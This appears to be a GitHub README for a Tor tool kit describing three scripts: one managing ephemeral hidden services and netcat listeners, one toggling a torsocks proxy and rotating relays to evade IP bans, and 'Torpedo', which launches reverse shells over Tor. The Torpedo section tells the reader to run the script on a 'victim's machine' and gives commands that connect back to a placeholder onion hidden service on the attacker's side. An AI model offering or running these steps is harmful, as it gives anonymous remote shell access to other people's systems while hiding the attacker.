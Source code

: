 Well this is just an tor related's tool kit. I pretend to collect some interesting tools for privacity and anonymity purposes.
I pretend to include here:
- TorHost: An simple script that I made for manage ephemeral hidden services (mainly for listener purposes, but u can do whatever u want with it).
- Torete: An script to manage tor connections.
- Torpedo: Reverse shells over Tor.

# Torhost.sh
Is an easy way to create and manage ephemeral hidden services for do whatever u want to do. It's mainly thinked for listener purposes but you know.
By default it uses port 80. Can be upgraded to establish TLS conecction but is not my priority right now. Tested on Debian based systems (Kali, Debian, Parrot) but might work in systemd based systems.

### Options
- install - Torhost will check if u have an hidden service set up on /etc/tor/torrc, if not, it will set up for you.
- start - Start your hidden service.
- stop - Stop your hidden service.
- change - Change hidden service hostname's and print the new one.
- check - Check the hostname of your hidden service.
- listen - Bind hidden service port to netcat local port.

#### Usage/Examples

```bash
sudo bash torhost.sh install
sudo bash torhost.sh check
```

![App Screenshot](https://user-images.githubusercontent.com/124470922/216985174-c1696384-2a18-41d9-8df8-29ae31043c8c.png)



# Torete
Torete is a simple script for manage your tor conecction, via transparent proxy generated by torsocks, this script must be run as root (not sudo) because torsocks.
This script has been tested on Debian, Kali (testing it i just discovered that zsh cannot execute it like in examples, it works in bash) , and Parrot, but can work on other systems.

### Options
- on - Enable torete's tor proxy.
- off - Disable torete's tor proxy.
- change - Change your tor relay to avoid IP ban, or whatever...

#### Usage/Examples

```bash
. torete on
. torete off
. torete change
```

![image](https://github.com/el10tt/tor-tools/assets/124470922/936ab6cc-089e-48c5-935f-7ac67b4f14da)



# Torpedo.sh
Is an easy way to launch reverse shells over Tor, just download tor portable version, execute its, and trhow reverse shell trough tor proxy.
It can be executed without root privileges, Its a nice one since there aren't so much reverse shells over Tor on the Internet.

#### Usage/Examples

First of all you need a hidden service (in attacker machine) to receive the reverse shell, you can manage this hidden service with torhost.sh.
You need to bind the hidden service with the listener local port, you can do it with torhost.sh aswell.
When you got listener ready, just execute torpedo.sh in victim's machine, and just wait for your shell.
You can hardcode hidden service parameters in the script body or you can enter'them as parameter.
Torpedo is only tested on x64 debian based systems. To work in i386 you gonna need to change the URL tor package parameter, for the i386 package.

```bash
. bash torpedo.sh
. bash torpedo.sh onionhiddenservice.onion 80
```

#### Listener

![image](https://github.com/el10tt/tor-tools/assets/124470922/3883d085-2ff6-4196-aaa3-a12647f030a9)

#### Torpedo (victim machine)

![image](https://github.com/el10tt/tor-tools/assets/124470922/c47e5b87-9fd4-4363-b2de-78681d264160)
![image](https://github.com/el10tt/tor-tools/assets/124470922/dfb8cbf0-d0a4-484a-bdc5-87e38ddc1330)




